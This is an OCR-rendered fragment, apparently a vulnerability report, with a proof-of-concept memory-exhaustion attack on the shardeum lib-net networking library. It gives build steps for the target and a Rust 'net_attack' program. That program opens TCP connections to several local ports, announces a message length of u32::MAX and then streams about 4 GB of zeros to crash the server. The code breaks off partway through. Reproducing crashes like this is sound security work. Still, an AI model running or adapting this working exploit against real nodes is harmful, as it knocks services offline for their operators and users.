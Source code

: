 ```
main();
} catch(e) {
        console.log('CAUGHT CLOSER TO EVENT LOOP', e);
}
```
### run
```
git clone https://github.com/shardeum/lib-net.git; 
npm run build
node test.js
```

### attacker
#### run
```
cargo new net_attack
cd net_attack
echo 'tokio = { version = "1.39.2", features = ["full"] }' >> Cargo.toml
```

### save as src/main.rs
```
use std::io::Write;
use std::net::TcpStream;
use tokio::time::{sleep, Duration};

#[tokio::main(flavor = "multi_thread", worker_threads = 10)]
async fn main() {
    // Connect to a TCP server running on localhost at port 8080
    let mut handles = vec![];
    // for i in 10001..10010 {
    for i in 10000..10006 {
        let conn = format!("localhost:{}",i);

        let handle = tokio::spawn(async move {
            if let Ok(mut stream) = TcpStream::connect(conn.clone()) {
                println!("working on {}", conn.clone());
        
                // send length
                let u32_data: u32 = u32::MAX;
                stream.write_all(&u32_data.to_be_bytes()).unwrap();
        
        
                // 1kb data
                let u8_data = vec![0; 1024];
        
                // send 4g 
                let mut kb_send = 0;
                for i in 0.. (1024*1024*4)  {
                    let ret = stream.write_all(&u8_data);
                    match ret {
                        Ok(_) => { kb_send += 1; }
                        _ => {}
                    }

                    // if i % 2513 == 0 {
                    //     println!("waiting");
                    //     sleep(Duration::from_secs(5)).await;
                    // }
                }
                println!("{} took {} kb of data to explode the server", conn, kb_send);
            }
```